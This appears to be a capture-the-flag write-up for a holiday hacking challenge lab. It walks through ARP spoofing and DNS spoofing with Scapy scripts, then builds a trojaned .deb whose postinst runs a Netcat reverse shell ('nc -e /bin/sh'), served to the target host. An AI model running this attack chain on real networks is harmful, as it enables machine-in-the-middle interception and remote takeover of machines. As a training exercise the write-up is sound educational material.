 # Objective 9 – ARP Shennanigans #

## OBJECTIVE: ##
>Go to the NetWars room on the roof and help Alabaster Snowball get access back to a host using ARP.  Retrieve the document at `/NORTH_POLE_Land_Use_Board_Meeting_Minutes.txt`.  Who recused herself from the vote described on the document?
#  

## HINTS ##
<details>
  <summary>Hints provided for Objective 9</summary>
 
>-	**ALABASTER SNOWBALL:** Jack Frost must have gotten malware on our host at `10.6.6.35` because we can no longer access it.  Try sniffing the eth0 interface using `tcpdump -nni eth0` to see if you can view any traffic from that host.
>-	**ALABASTER SNOWBALL:** The host is performing an ARP request.  Perhaps we could do a spoof to perform a machine-in-the-middle attack.  I think we have some simple `scapy` traffic scripts that could help you in `/home/guests/scripts`.
>-	**ALABASTER SNOWBALL:** Hmmm, looks like the host does a DNS request after you successfully do an ARP spoof.  Let’s return a DNS response resolving the request to our IP.
>-	**ALABASTER SNOWBALL:** The malware on the host does an HTTP request for a .deb package.  Maybe we can get command line access by sending it [a command in a customized .deb file](http://www.wannescolman.be/?p=98).



</details>

#  
## PROCEDURE: ##
Well... judging juist by the sheer amount of hints we get for this objective; I’m guessing it’s going to be a tough one!

Let’s start by following the hints.  Running ``tcpdump -nni eth0``.  We see a number of ARP requests for `10.6.6.53` from `10.6.6.35` (which is the host we need to regain access to).  At this point I’m guessing that `10.6.6.53` is a malicious machine and that `10.6.6.35` is trying to reach it to establish some kind of reverse shell.  So maybe we can get `10.6.6.35` to believe that we are `10.6.6.53`.

We can sniff and record packets by entering `scapy` and running ``pkts = sniff(iface=’eth0’)``.  We can then view specific packets by referencing ``pkts[x]``  or ``pkts.summary()``.

From one of the logged Scapy entries we can see that the `10.6.6.35` machine has a MAC of `4c:24:57:ab:ed:84`
 ![image](https://github.com/beta-j/SANS-Holiday-Hack-Challenge-2020/assets/60655500/89959548-43c7-4e9f-a933-79bcceb779af)

We need to properly craft an ARP response:

`Ether_resp = Ether(dst=4c:24:57:ab:ed:84, type=0x806, src=02:42:0a:06:00:02)`

`arp_response.op=2` *because this is an ARP response*

`arp_response.plen=4` *because there are 4 octets in a IPv4 address*

`arp_response.hwlen=6` *because there are 6 octets in an Ethernet address*

`arp_response.ptype=0x800` *this is the code for IPv4*

`arp_response.hwtype=0x1` *this is the code for Ethernet*

`arp_response.hwsrc="02:42:0a:06:00:02"` *this is my terminal’s MAC*

`arp_response.psrc="10.6.6.53"` *this is the IP I’m spoofing*

`arp_response.hwdst=4c:24:57:ab:ed:84` *this is the MAC obtained in Scapy*

`arp_response.pdst="10.6.6.35"` *this is the IP we’re sending the response to.*


After running `./arp_resp.py` I can see the following output on the tcpdump – looks like a DNS request so I must be on the right track:
![image](https://github.com/beta-j/SANS-Holiday-Hack-Challenge-2020/assets/60655500/efd14fb2-f627-43b4-9fb3-8e6dee1ec5a3)

It is also possible toget more details from the Scapy sniff – the DNS portion is particularly useful now.
```
<Ether  dst=02:42:0a:06:00:02 src=4c:24:57:ab:ed:84 type=IPv4 |<IP  version=4 ihl=5 tos=0x0 len=60 id=1 flags= frag=0 ttl=64 proto=udp chksum=0x5a4d src=10.6.6.35 dst=10.6.6.53 |<UDP  sport=42244 dport=domain len=40 chksum=0x9559 |<DNS  id=0 qr=0 opcode=QUERY aa=0 tc=0 rd=1 ra=0 z=0 ad=0 cd=0 rcode=ok qdcount=1 ancount=0 nscount=0 arcount=0 qd=<DNSQR  qname='ftp.osuosl.org.' qtype=A qclass=IN |> an=None ns=None ar=None |>>>>
```

Thanks to the hints I now know that I need to spoof a DNS response and have it point to my terminal.  For this I need to update the `dns_resp.py` script with the following parameters:
```python
ipaddr_we_arp_spoofed = "10.6.6.53"
eth = Ether(src="02:42:0a:06:00:02", dst="4c:24:57:ab:ed:84")
ip=IP(dst="10.6.6.35", src="10.6.6.53")
udp=UDP(dport=12773,sport=53)
    dns = DNS(
      id=packet[DNS].id,
      qd=packet[DNS].qd,
      aa=1,
      qr=1,
      ancount=1,
      an=DNSRR(rrname=packet[DNS].qd.qname, ttl=10, rdata=ipaddr)
    )
```
To figure out this last bit I had to resort to asking for help on Discord.  **@elakamarcus#5519** helped me out a lot by pointing me towards [a nice script](https://www.cs.dartmouth.edu/~sergey/netreads/local/reliable-dns-spoofing-with-python-scapy-nfqueue.html) online which I used for reference to create my own scipts; [arp_resp.py](code/arp_resp.py) and [dns_resp.py](code/dns_resp.py). 

With the scripts ready I started ``tcpdump –nni eth0 –w outfile.pcap`` in one terminal then ran ``./dns_resp.py`` in another terminal and left it running.  Finally I ran ``./arp_resp.py`` in the third terminal and this generated the ARP response we did previously, and then a DNS response to the request that was triggered.  

Looking at the resulting pcap file in Scapy;
```
>>>f=rdpcap(“/home/guest/outfile.pcap”)
>>>f.summary()
>>>f[IP].summary()
```
We now see a number of new requests including http requests.

![image](https://github.com/beta-j/SANS-Holiday-Hack-Challenge-2020/assets/60655500/0cccf691-cc10-484e-8647-1a13c44b1d85)
 

We can use ``>>> hexdump(f[IP][12].load)`` to see the contents of individual packets.

I now started up a http server as suggested by the HELP.md file:
```console
~$ python3 –m http.server 80
```

If I try sending out the crafted ARP response and DNS response packets again I receive a GET instruction on the http server and guess what?.... it looks like Jack Frost is trying to download a file called `suriv_amd64.deb`!

![image](https://github.com/beta-j/SANS-Holiday-Hack-Challenge-2020/assets/60655500/61051b2c-f2e1-4eb5-9a66-39dba2de50d9)

 
Well this seems like an opportunity to pass on my own .deb file with a reverse shell to give me access to the compromised terminal.
I created an empty file called `suriv_amd64.deb` and the `/pub/jfrost/backdoor/` directories and I confirm that the file is being download with my http server returning code 200 now.
![image](https://github.com/beta-j/SANS-Holiday-Hack-Challenge-2020/assets/60655500/377aae44-d9ed-4d79-ae30-8da4fd0cbf68)
  
OK – so all I need is to find some way to make the deb file open a reverse shell when it is installed on the compromised machine.  This is where [the link in one of the hints for this objective](http://www.wannescolman.be/?p=98) came in very handy.

I took the Netcat debian file found in the `debs/` folder and de-packaged it to a temporary folder called `work/`: 
```console
~$ dpkg -x netcat-traditional_1.10-41.1ubuntu1_amd64.deb work
```

I created a directory called `DEBIAN` in work
```console
~$ mkdir work/DEBIAN
```

I extracted the `control` and `postinst` files from the deb package and moved them to the `work/DEBIAN/` directory:
```console
~$ ar -x netcat-traditional_1.10-41.1ubuntu1_amd64.deb
~$ tar -xf control.tar.xz ./control
~$ tar -xf control.tar.xz ./postinst
~$ mv control work/DEBIAN/
~$ mv postinst work/DEBIAN/
```

Now I added a line to the end of the `postinst` file to have it establish a Netcat reverse shell (We know that Netcat is installed if the deb has been run).
```console
~$ echo “nc -e /bin/sh 10.6.0.4 5555” >> work/DEBIAN/postinst
```

And I re-package the deb file:
```console
~$ dpkg-deb --build work/
```

Finally I moved the .deb file to the web server, renaming it to the file Jack Frost is looking for:
```console
~$ mv work.deb /home/guest/pub/jfrost/backdoor/suriv_amd64.deb
```

Now we start a Netcat listener, start the web server, run the DNS response script and the ARP response script and after a few seconds – we have a Netcat session up and running!  
![image](https://github.com/beta-j/SANS-Holiday-Hack-Challenge-2020/assets/60655500/87d67274-fb8c-4da2-8e5d-897ed90dfbe0)

Conveniently I’m in the same directory as `NORTH_POLE_Land_Use_Board_Meeting_Minutes.txt` and I can simply see its contents with `cat`:
![image](https://github.com/beta-j/SANS-Holiday-Hack-Challenge-2020/assets/60655500/82d7b466-78d4-487f-acd9-bf649459aa26)

That’s it – **Tanta Kringle** was the one who recused herself from the vote.  I can’t believe I made it this far!!
